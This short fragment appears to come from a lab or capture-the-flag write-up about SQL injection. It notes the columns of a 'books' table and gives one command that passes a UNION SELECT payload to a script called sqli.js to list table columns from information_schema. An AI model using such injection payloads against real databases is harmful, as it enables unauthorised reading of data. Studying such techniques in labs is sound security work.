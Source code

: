 # 
- column names for books table is id and info
```node sqli.js 'UNION SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name="books"'```

